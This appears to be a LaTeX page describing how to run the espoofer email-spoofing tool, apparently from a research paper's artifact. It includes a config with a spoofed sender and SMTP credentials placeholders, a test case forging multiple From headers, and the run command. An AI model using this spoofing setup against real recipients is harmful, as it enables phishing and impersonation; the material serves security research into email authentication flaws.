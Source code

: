 \documentclass[11pt]{article}
\newcommand{\espoofer}{{\sf espoofer}\xspace}
\begin{document}
\begin{enumerate}
\item Open the \espoofer folder and edit \texttt{config.py} using the registered account and App Password.

\begin{lstlisting}
config ={
  "legitimate_site_address": b"fakeadmin@osu.edu",  # the spoofed email address
  "victim_address": b"attacker@fastmail.com", # Your account username
  "case_id": b"client_a1",

  "client_mode": {
    "sending_server": ("smtp.fastmail.com", 587),  # SMTP sending serve ip and port
    "username": b"attacker@fastmail.com", # Your account username and App password
    "password": b"App Password",
  },
}

\end{lstlisting}\vspace{-6mm}

\item Edit \texttt{testcases.py} to customize the content and the subject of your spoofing email.
\begin{lstlisting}
"client_a1": {
          "helo": b"espoofer-MacBook-Pro.local",
          "mailfrom": b"<attacker@example.com>",
          "rcptto": b"<victim@victim.com>",
          # "dkim_para": {"d":b"legitimate.com(.attack.com", "s":b"selector", "sign_header": b"From: <ceo@legitimate.com>"},
          "data": {
              "from_header": b"From: <attacker@example.com>\r\nFrom: <admin@example.com>\r\n",
              "to_header": b"To: <victim@victim.com>\r\n",
              "subject_header": b"Subject: client A1: Multiple From headers\r\n",
              "body": b"Hi, this is a test message! Best wishes.\r\n", # Content and Subject
              "other_headers": b"Date: " + get_date() + b"\r\n" + b'Content-Type: text/plain; charset="UTF-8"\r\nMIME-Version: 1.0\r\nMessage-ID: <1538085644648.096e3d4e-bc38-4027-b57e-' + id_generator() + b'@message-ids.attack.com>\r\nX-Email-Client: https://github.com/chenjj/espoofer\r\n\r\n',
          },
          "description": b"Spoofing via an email service account using multiple From headers, refer to section 6.2 in the paper."
      }
\end{lstlisting}\vspace{-6mm}

\item Run \espoofer and you will receive a spoofed email in your inbox. Have fun!
\begin{lstlisting}
$ python3 espoofer.py -m c -id client_a1
\end{lstlisting}\vspace{-6mm}


\end{enumerate}
\end{document}

